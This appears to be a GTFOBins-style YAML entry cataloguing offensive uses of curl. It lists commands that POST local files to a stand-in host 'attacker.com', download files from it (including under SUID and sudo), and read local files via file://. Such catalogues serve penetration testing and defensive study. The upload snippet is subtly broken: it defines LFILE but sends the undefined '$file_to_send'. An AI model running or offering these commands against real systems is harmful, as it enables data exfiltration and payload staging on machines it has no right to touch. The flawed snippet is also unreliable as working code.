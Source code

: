 ```yaml
---
functions:
  upload:
    - description: Send local file with an HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        URL=http://attacker.com/
        LFILE=file_to_send
        curl -X POST -d @$file_to_send $URL
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        curl $URL -o $LFILE
  file-read:
    - description: The file path must be absolute.
      code: |
        LFILE=/tmp/file_to_read
        curl file://$LFILE
  suid-enabled:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        ./curl $URL -o $LFILE
  sudo-enabled:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        sudo -E curl $URL -o $LFILE
---
```

